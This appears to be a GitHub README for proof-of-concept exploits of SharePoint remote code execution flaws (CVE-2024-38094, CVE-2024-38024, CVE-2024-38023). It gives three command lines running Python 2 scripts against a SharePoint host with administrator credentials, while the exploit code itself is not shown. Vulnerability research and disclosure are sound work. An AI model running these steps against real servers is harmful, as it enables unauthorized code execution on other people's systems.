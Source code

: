 # MS-SharePoint-July-Patch-RCE-PoC

PoC for:
- CVE-2024-38094
- CVE-2024-38024
- CVE-2024-38023

PoC Video: 
https://youtu.be/u8mccaakISw


# How to use

## Step 1

```cmd
python2 poc_filtered.py http://win-1nmhtjkvjbo:36528/ Administrator Admin@2022
```

## Step 2

```cmd
python2 poc_specific.py http://win-1nmhtjkvjbo:36528/ Administrator Admin@2022
```

## Step 3

```
python2 poc_sub.py http://win-1nmhtjkvjbo:36528/ Administrator Admin@2022
```